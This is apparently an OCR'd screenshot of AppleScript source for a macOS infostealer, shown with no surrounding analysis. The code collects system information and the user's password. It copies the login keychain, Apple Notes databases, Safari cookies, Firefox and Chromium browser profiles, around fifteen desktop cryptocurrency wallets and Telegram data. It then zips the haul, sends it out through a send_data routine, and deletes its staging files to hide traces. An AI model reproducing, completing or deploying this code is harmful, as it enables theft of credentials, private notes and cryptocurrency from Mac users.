 ```
try
	set result to (do shell script "system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType")
	writeText(result, writemind & "info")
end try
set library to profile & "/Library/Application Support/"
set password_entered to getpwd(username, writemind)
delay 0.01
set chromiumMap to {{"Chrome", library & "Google/Chrome/"}, {"Brave", library & "BraveSoftware/Brave-Browser/"}, {"Edge", library & "Microsoft Edge/"}, {"Vivaldi", library & "Vivaldi/"}, {"Opera", library & "com.operasoftware.Opera/"}, {"OperaGX", library & "com.operasoftware.OperaGX/"}, {"Chrome Beta", library & "Google/Chrome Beta/"}, {"Chrome Canary", library & "Google/Chrome Canary"}, {"Chromium", library & "Chromium/"}, {"Chrome Dev", library & "Google/Chrome Dev/"}, {"Arc", library & "Arc/"}, {"Coccoc", library & "Coccoc/"}}
set walletMap to {{"deskwallets/Electrum", profile & "/.electrum/wallets/"}, {"deskwallets/Coinomi", library & "Coinomi/wallets/"}, {"deskwallets/Exodus", library & "Exodus/"}, {"deskwallets/Atomic", library & "atomic/Local Storage/leveldb/"}, {"deskwallets/Wasabi", profile & "/.walletwasabi/client/Wallets/"}, {"deskwallets/Ledger_Live", library & "Ledger Live/"}, {"deskwallets/Monero", profile & "/Monero/wallets/"}, {"deskwallets/Bitcoin_Core", library & "Bitcoin/wallets/"}, {"deskwallets/Litecoin_Core", library & "Litecoin/wallets/"}, {"deskwallets/Dash_Core", library & "DashCore/wallets/"}, {"deskwallets/Electrum_LTC", profile & "/.electrum-ltc/wallets/"}, {"deskwallets/Electron_Cash", profile & "/.electron-cash/wallets/"}, {"deskwallets/Guarda", library & "Guarda/"}, {"deskwallets/Dogecoin_Core", library & "Dogecoin/wallets/"}, {"deskwallets/Trezor_Suite", library & "@trezor/suite-desktop/"}}
readwrite(library & "Binance/app-store.json", writemind & "deskwallets/Binance/app-store.json")
readwrite(library & "@tonkeeper/desktop/config.json", "deskwallets/TonKeeper/config.json")
readwrite(profile & "/Library/Keychains/login.keychain-db", writemind & "keychain")
if release then
	readwrite(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite", writemind & "FileGrabber/NoteStore.sqlite")
	readwrite(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-wal", writemind & "FileGrabber/NoteStore.sqlite-wal")
	readwrite(profile & "/Library/Group Containers/group.com.apple.notes/NoteStore.sqlite-shm", writemind & "FileGrabber/NoteStore.sqlite-shm")
	readwrite(profile & "/Library/Containers/com.apple.Safari/Data/Library/Cookies/Cookies.binarycookies", writemind & "FileGrabber/Cookies.binarycookies")
	readwrite(profile & "/Library/Cookies/Cookies.binarycookies", writemind & "FileGrabber/saf1")
end if
if filegrabbers then
	filegrabber(writemind)
end if
writeText(username, writemind & "username")
set ff_paths to {library & "Firefox/Profiles/", library & "Waterfox/Profiles/", library & "Pale Moon/Profiles/"}
repeat with firefox in ff_paths
	try
		parseFF(firefox, writemind)
	end try
end repeat
chromium(writemind, chromiumMap)
deskwallets(writemind, walletMap)
telegram(writemind, library)
do shell script "ditto -c -k --sequesterRsrc " & writemind & " /tmp/out.zip"
send_data(0)
do shell script "rm -r " & writemind
do shell script "rm /tmp/out.zip"
```
